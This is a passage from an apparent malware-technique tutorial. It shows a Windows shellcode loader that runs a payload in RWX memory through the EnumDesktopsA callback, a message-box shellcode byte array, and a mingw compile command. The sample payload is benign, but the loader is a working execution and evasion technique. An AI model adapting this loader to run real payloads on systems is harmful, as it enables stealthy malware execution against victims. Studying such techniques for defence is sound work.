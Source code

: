 ```cpp

  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  return 0;
}
```

As usually, I used `meow-meow` messagebox payload here:    

```cpp
unsigned char my_payload[] = {
  0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x0, 0x0,
  0x0, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65,
  0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48, 0x8b, 0x52, 0x18, 0x3e, 0x48, 0x8b,
  0x52, 0x20, 0x3e, 0x48, 0x8b, 0x72, 0x50, 0x3e, 0x48, 0xf, 0xb7, 0x4a,
  0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x2,
  0x2c, 0x20, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0xe2, 0xed, 0x52,
  0x41, 0x51, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x8b, 0x42, 0x3c, 0x48,
  0x1, 0xd0, 0x3e, 0x8b, 0x80, 0x88, 0x0, 0x0, 0x0, 0x48, 0x85, 0xc0,
  0x74, 0x6f, 0x48, 0x1, 0xd0, 0x50, 0x3e, 0x8b, 0x48, 0x18, 0x3e, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x1, 0xd0, 0xe3, 0x5c, 0x48, 0xff, 0xc9, 0x3e,
  0x41, 0x8b, 0x34, 0x88, 0x48, 0x1, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31,
  0xc0, 0xac, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0x38, 0xe0, 0x75,
  0xf1, 0x3e, 0x4c, 0x3, 0x4c, 0x24, 0x8, 0x45, 0x39, 0xd1, 0x75, 0xd6,
  0x58, 0x3e, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x1, 0xd0, 0x66, 0x3e, 0x41,
  0x8b, 0xc, 0x48, 0x3e, 0x44, 0x8b, 0x40, 0x1c, 0x49, 0x1, 0xd0, 0x3e,
  0x41, 0x8b, 0x4, 0x88, 0x48, 0x1, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e,
  0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20,
  0x41, 0x52, 0xff, 0xe0, 0x58, 0x41, 0x59, 0x5a, 0x3e, 0x48, 0x8b, 0x12,
  0xe9, 0x49, 0xff, 0xff, 0xff, 0x5d, 0x49, 0xc7, 0xc1, 0x0, 0x0, 0x0,
  0x0, 0x3e, 0x48, 0x8d, 0x95, 0xfe, 0x0, 0x0, 0x0, 0x3e, 0x4c, 0x8d,
  0x85, 0x9, 0x1, 0x0, 0x0, 0x48, 0x31, 0xc9, 0x41, 0xba, 0x45, 0x83,
  0x56, 0x7, 0xff, 0xd5, 0x48, 0x31, 0xc9, 0x41, 0xba, 0xf0, 0xb5, 0xa2,
  0x56, 0xff, 0xd5, 0x4d, 0x65, 0x6f, 0x77, 0x2d, 0x6d, 0x65, 0x6f, 0x77,
  0x21, 0x0, 0x3d, 0x5e, 0x2e, 0x2e, 0x5e, 0x3d, 0x0
};
```

Also, this code correctly maintaining the padding scheme and payload length.    

### demo 2

Let’s go to see everything in action. Compile it (in my `linux` machine):    

```bash
x86_64-w64-mingw32-gcc -O2 hack2.c -o hack2.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```
